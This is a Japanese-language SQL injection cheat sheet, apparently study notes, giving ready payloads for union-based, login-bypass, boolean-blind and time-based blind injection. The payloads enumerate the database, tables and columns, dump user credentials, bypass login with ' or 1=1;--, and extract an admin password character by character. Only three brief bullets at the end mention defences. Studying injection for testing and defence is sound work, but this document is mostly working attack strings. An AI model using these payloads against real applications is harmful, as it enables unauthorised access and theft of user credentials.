 # SQL インジェクション

## Error Based SQLi

画面で Select している列数を探る

```sql
1 union select 1,2,3
```

存在しないデータと Union したら 1,2,3 が表示されるか？（最初の 1 行だけ画面に表示されるパターン）

```sql
0 union select 1,2,3
```

データベース名

```sql
0 union select 1,2,database()
```

DB 内のテーブル名。group_concat で 1 つにまとめてるのがポイント。

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'データベース名'
```

テーブル内の列名

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'テーブル名'
```

全行を 1 セルに表示する

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users
```

## Blind Based SQLi

DB のデータには興味がなく、ログイン画面をバイパスするような、結果だけを求める場合

```sql
' or 1=1;--
```

## Boolean Based SQLi

データベース名を探索する  
※「このユーザー名は既に存在します」と表示されるような場面で使う

```sql
-- この結果がTrueで
a' UNION SELECT 1,2,3 where database() like '%';--

-- この結果がFalseで
a' UNION SELECT 1,2,3 where database() like 'a%';--

-- この結果がTrueであるとき、sから始まる名前のデータベースが存在することが分かる
-- 2文字目以降も同様に繰り返すことで、全体が判明する
a' UNION SELECT 1,2,3 where database() like 's%';--
```

テーブル名を探索する

```sql
-- Trueであるとき、aから始まるテーブルが存在することが分かる
a' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'データベース名' and table_name like 'a%';--
```

列名を探索する

```sql
-- Trueであるとき、aから始まる列名が存在することが分かる
a' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='データベース名' and TABLE_NAME='テーブル名' and COLUMN_NAME like 'a%';
```

保存されているデータを探索する

```sql
-- Trueであるとき、passwordの1文字目はaであることが分かる
a' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

## Time Based Blind SQLi

Boolean Based と同じだが、結果を画面表示から判別できない場合に、時間遅延で Boolean の判定をする

```sql
-- これがすぐに返り、
a' UNION SELECT SLEEP(5);--

-- これで5秒の遅延が発生する場合、列数が2であることが分かる
a' UNION SELECT SLEEP(5),2;--

-- 遅延が発生する場合、1文字目が4であることが分かる
a' UNION SELECT sleep(5),2 from users where username='admin' and password like '4%';--
```

## セキュリティ

- フレームワークの Prepared Statements を使用する
- 入力検証
- ユーザー入力のエスケープ
